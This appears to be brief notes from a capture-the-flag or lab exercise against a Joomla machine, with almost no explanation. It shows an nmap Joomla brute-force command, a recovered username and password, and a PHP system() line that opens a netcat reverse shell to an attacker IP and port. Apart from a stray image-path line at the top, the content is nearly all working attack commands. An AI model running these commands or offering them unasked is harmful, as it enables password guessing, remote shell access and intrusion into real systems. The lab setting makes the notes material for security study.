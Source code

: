 ## Joomla Password
```
nmap -p80 --script "http-joomla-brute" --script-args 'userdb=wordlist,passdb=password' 10.10.10.150

Floris:Curling2018!
```

# Getting shell
```
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 4444 >/tmp/f");
```
